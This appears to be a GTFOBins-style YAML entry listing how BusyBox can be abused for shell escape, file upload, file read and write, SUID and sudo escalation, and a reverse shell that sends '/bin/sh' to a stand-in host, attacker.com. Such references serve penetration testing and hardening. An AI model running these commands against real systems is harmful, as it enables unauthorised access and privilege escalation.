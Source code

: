 ```yaml
---
description: BusyBox may contain many UNIX utilities, run `busybox --list-full` to check what GTFOBins binaries are supported. Here some example.
functions:
  shell:
    - code: busybox sh
  file-upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=12345
        busybox httpd -f -p $LPORT -h .
  file-write:
    - code: |
        LFILE=file_to_write
        busybox sh -c 'echo "DATA" > $LFILE'
  file-read:
    - code: |
        LFILE=file_to_read
        ./busybox cat "$LFILE"
  suid:
    - description: It may drop the SUID privileges depending on the compilation flags and the runtime configuration.
      code: "./busybox sh"
  sudo:
    - code: sudo busybox sh
  reverse-shell:
    - description: Run `nc -lvp 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        busybox nc -e /bin/sh $RHOST $RPORT
---
```

